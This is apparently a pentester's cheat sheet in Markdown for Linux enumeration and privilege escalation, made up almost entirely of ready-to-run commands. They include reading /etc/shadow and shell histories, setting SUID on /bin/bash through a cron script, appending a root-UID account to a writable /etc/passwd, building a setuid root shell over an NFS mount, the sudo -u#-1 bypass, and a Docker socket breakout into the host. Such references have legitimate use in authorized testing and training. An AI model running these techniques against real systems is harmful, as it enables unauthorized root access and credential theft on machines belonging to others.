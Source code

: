 ## Linux Enumeration and Privilege Escalation
### Enumeration
-> Get system distribution and version
```
cat /etc/*-release
```

-> Get kernel version
```
cat /proc/version   
uname -a
```

-> View variable environments 
```
env
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
cat ~/.zshrc
```

-> View user command history
```
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

-> List running processes
```
ps aux
```

-> View interfaces and network information 
```
ifconfig
ip addr
```

-> View all active TCP connections and the TCP and UDP ports the host is listening on.
```
netstat -ant
```

-> Get DNS resolver and hosts mapped to an IP
```
cat /etc/resolv.conf
cat /etc/hosts
```

-> Get system user, group and password information
```
cat /etc/passwd
cat /etc/shadow
```

--- 

## Privilege Escalation
### Crontab [PrivEsc]
-> Enumeration  
```
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
```

-> Exploitation  
https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```
getcap -r / 2>/dev/null
```
-> Exploitation  
https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```
sudo -l
```
or  
```
cat /etc/sudoers
```
-> Exploitation  
https://gtfobins.github.io/

### Weak File Permissions / Passwd Writabble [PrivEsc]
-> Enumeration  
```
ls -la /etc/passwd
ls -la /etc/shadow

```
-> Exploitation  
```
echo "okays:$(openssl passwd okay2):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### NFS Root Squashing
-> Detection - VM Owned
``` 
cat /etc/exports
```

-> Viewing nfs directories with access - Attacker VM
```
showmount -e <ip>
```

-> Get nfs version - Attacker VM
```
rpcinfo <ip>
```

-> Mount - Attacker VM
```
mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1
```

-> Creating and compiling file for privesc - Attacker VM
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x
```

-> Exploitation - VM Owned
```
/tmp/x
 id
```

### sudo < v1.28 - @sickrov [PrivEsc]
```
sudo -u#-1 /bin/bash
```

### Docker Breakout [PrivEsc]
-> Search the socket
```
find / -name docker.sock 2>/dev/null
```
-> list images  
```
docker images
```
-> Exploitation
```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]

-> Linpeas
```
./linpeas.sh
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> linux-exploit-suggester
```
./linux-exploit-suggester.sh
```
or  
```
./linux-exploit-suiggester.sh --uname <uname-string>
```
https://github.com/The-Z-Labs/linux-exploit-suggester

-> Unix Privesc Check
```
./unix-privesc-check
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
